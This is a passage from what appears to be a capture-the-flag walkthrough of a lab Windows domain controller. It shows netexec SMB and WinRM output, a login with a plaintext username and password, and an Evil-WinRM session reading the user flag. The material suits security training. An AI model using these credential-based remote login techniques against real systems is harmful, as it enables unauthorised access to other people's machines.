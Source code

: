 ```bash
SMB         10.10.68.111    445    BABYDC           SYSVOL          READ            Logon server share 
                                                                                                                                                                                             
netexec winrm 10.10.68.111 -u Caroline.Robinson -p 'Dusk3d123!'     
WINRM       10.10.68.111    5985   BABYDC           [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl)
WINRM       10.10.68.111    5985   BABYDC           [+] baby.vl\Caroline.Robinson:Dusk3d123! (Pwn3d!)
```

<img src="/assets/img/baby/Untitled 2.png" alt="Untitled 2.png" style="width:800px;">

Connected over WinRM and read the user flag.

```
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> whoami
baby\caroline.robinson

*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> hostname
BabyDC

*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> type c:\users\caroline.robinson\desktop\user.txt
VL{<REDACTED>}
```

# PrivEsc
